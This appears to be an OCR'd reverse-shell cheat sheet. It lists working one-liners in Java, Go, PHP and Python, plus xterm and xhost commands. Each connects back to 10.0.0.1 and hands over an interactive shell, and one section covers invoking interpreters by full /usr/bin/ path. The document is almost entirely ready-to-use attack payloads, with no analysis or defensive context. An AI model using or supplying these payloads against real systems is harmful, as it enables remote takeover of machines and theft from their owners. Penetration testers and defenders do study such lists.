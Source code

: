 # XTERM
```
xterm -display 10.0.0.1:1
```

# XNEST
```
Xnest :1
```

# XHOST
```
xhost +targetip
```

# JAVA
```
r = Runtime.getRuntime()
p = r.exec(["/bin/bash","-c","exec 5<>/dev/tcp/10.0.0.1/2002;cat <&5 | while read line; do \$line 2>&5 >&5; done"] as String[])
p.waitFor()
```

# GOLANG
```
echo 'package main;import"os/exec";import"net";func main(){c,_:=net.Dial("tcp","10.0.0.1:4242");cmd:=exec.Command("/bin/sh");cmd.Stdin=c;cmd.Stdout=c;cmd.Stderr=c;cmd.Run()}' > /tmp/t.go && go run /tmp/t.go && rm /tmp/t.go
```

# Bypassing IF dont have any Function OUTPUT!
USING /usr/bin/

# PHP
```
/usr/bin/php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```

# PYTHON
// Python3 Usage:
```
/usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
